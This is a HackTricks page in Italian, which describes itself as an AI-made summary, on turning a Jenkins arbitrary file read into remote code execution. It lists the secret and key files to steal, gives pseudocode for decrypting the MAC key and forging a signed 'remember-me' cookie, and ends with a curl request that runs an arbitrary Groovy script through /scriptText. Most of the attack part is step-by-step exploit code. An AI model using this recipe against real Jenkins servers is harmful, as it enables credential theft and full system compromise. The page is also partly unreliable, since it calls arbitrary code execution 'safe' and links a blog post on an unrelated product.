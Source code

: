 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In questo post del blog è possibile trovare un ottimo modo per trasformare una vulnerabilità di Local File Inclusion in Jenkins in RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Questo è un riassunto creato dall'AI della parte del post in cui l'artefatto di un cookie arbitrario viene abusato per ottenere RCE abusando di una lettura di file locale fino a quando non ho tempo per creare un riassunto da solo:

### Requisiti per l'attacco

* **Requisito di funzionalità:** "Ricordami" deve essere abilitato (impostazione predefinita).
* **Livelli di accesso:** L'attaccante ha bisogno di permessi Generali/Di lettura.
* **Accesso segreto:** Capacità di leggere sia contenuti binari che testuali da file chiave.

### Processo di sfruttamento dettagliato

#### Passo 1: Raccolta dati

**Recupero delle informazioni utente**

* Accedere alla configurazione utente e ai segreti da `$JENKINS_HOME/users/*.xml` per ciascun utente per raccogliere:
* **Nome utente**
* **Seed utente**
* **Timestamp**
* **Hash della password**

**Estrazione della chiave segreta**

* Estrarre le chiavi crittografiche utilizzate per firmare il cookie:
* **Chiave segreta:** `$JENKINS_HOME/secret.key`
* **Chiave master:** `$JENKINS_HOME/secrets/master.key`
* **File chiave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forgiatura del cookie

**Preparazione del token**

*   **Calcolare il tempo di scadenza del token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Aggiunge un'ora all'ora attuale
```
{% endcode %}
*   **Concatenare i dati per il token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Decrittazione della chiave MAC**

*   **Decrittare il file chiave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertire la chiave master nel formato chiave AES128
decrypted = AES.decrypt(macFile, key)  // Decrittare il file .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcolo della firma**

*   **Calcolare HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcolare HMAC utilizzando il token e la chiave MAC
tokenSignature = bytesToHexString(mac)  // Convertire il MAC in una stringa esadecimale
```

**Codifica del cookie**

*   **Generare il cookie finale:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificare in Base64 i dati del cookie
```
{% endcode %}

#### Passo 3: Esecuzione del codice

**Autenticazione della sessione**

* **Recuperare i token CSRF e di sessione:**
* Effettuare una richiesta a `/crumbIssuer/api/json` per ottenere `Jenkins-Crumb`.
* Catturare `JSESSIONID` dalla risposta, che sarà utilizzato insieme al cookie "remember-me".

**Richiesta di esecuzione del comando**

*   **Inviare una richiesta POST con uno script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Lo script Groovy può essere utilizzato per eseguire comandi a livello di sistema o altre operazioni all'interno dell'ambiente Jenkins.

L'esempio di comando curl fornito dimostra come effettuare una richiesta a Jenkins con le intestazioni e i cookie necessari per eseguire codice arbitrario in modo sicuro.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
